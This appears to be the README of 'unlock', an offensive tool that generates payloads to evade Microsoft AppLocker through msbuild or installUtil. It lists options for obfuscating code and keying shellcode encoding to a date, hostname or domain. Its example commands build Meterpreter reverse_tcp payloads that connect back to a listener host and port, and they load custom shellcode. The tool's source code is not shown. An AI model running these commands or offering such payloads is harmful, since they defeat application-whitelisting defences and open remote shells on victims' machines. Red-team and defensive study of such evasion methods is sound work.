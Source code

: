# unlock
Microsoft Applocker evasion tool

Unlock aims to be an easy tool for generating payloads which can bypass MS applocker restriction.
The code is heavily based on subtee work.

## Usage

unlock.py [-h] [--output FILENAME] [--framework FWV] [--payload PAYLOAD] [--lhost LHOST] [--lport LPORT]  [--method METHOD] [--enaobf] [--encshell ENCSHELL] [--custom CUSTOM] [--x64]

## Arguments:
--output FILENAME   Output file name without extension  
--framework FWV      Framework NET version  
--payload PAYLOAD    Payload in MSF syntax  
--lhost LHOST        Local host for reverse shell  
--lport LPORT        Local port for reverse shell  
--method METHOD      Evasion method: msbuild or installUtil  
--enaobf             Enable CS code obfuscation  
--encshell ENCSHELL  Encode shell with: yyyymmdd, yyyymm, hostname, or domain  
--enctext TEXT       Text to xorencode payload with, used with hostname or domain  
--custom CUSTOM      Custom binary payload (don't use with --payload/--lhost/--lport)  
--x64                set if your custom payload is x64  

## Examples
- python unlock.py --framework 4.0 --payload windows/x64/meterpreter/reverse_tcp --lhost 192.168.0.1 --lport 4444 --method installUtil
- python unlock.py --framework 4.0 --payload windows/meterpreter/reverse_tcp --lhost 192.168.0.1 --lport 4444 --method msbuild
- python unlock.py --framework 4.0 --custom shellcode.bin --x64
- python unlock.py --framework 4.0 --custom shellcode.bin --x64 --encshell yyyymm
- python unlock.py --framework 4.0 --custom shellcode.bin --x64 --encshell hostname --enctext SECRETARY
- python unlock.py --framework 4.0 --custom shellcode.bin --x64 --encshell domain --enctext CONTOSO
